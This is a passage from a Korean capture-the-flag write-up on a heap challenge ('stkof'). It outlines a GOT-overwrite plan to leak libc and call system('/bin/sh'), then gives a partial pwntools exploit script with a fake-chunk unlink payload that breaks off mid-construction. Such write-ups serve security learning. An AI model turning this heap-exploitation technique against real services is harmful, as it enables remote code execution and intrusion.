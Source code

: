 `chunk`의 주소를 마음대로 바꿀 수 있고 `FULL RELRO`도 아니니까 `함수 got`를 `chunk`주소로 적어두고 그 값들을 조작할 거에요.

1. `1 chunk` = `free_got`, `2 chunk` = `puts_got`

2. `func_read`로 `free_got`에 `puts_plt` 삽입

3. `func_free(2)`로 `puts(puts_got)`실행 -> `libc_leak`

4. 2처럼 `free_got`에 `libc_system` 삽입

5. 새로운 `chunk`를 받아서 그 안에 "/bin/sh\0" 문자열넣고 `free` -> `system("/bin/sh\0")`

6. 따란~

- - -
# 0x03. 익스플로잇

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "54.64.45.35"
PORT = 4444
#PORT = 3573

s = remote(HOST, PORT)
pause()

elf = ELF("./stkof")
libc = ELF("./libc.so.6")

free_got = elf.got["free"]
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

chunk_list = 0x602140

def func_malloc(size):
    s.sendline("1")
    s.sendline(str(size))

    s.recvuntil("OK\n")

def func_read(index, content):
    s.sendline("2")
    s.sendline(str(index))
    s.sendline(str(len(content)))
    s.send(content)

    s.recvuntil("OK\n")

def func_free(index):
    s.sendline("3")
    s.sendline(str(index))

func_malloc(0x18)
func_malloc(0x108)
func_malloc(0x108)

payload = p64(0x0) # fake_chunk -> prve_size
payload += p64(0x0) # fake_chunk -> size
payload += p64(chunk_list + 0x10 - 0x18) # fack_chunk -> fd
```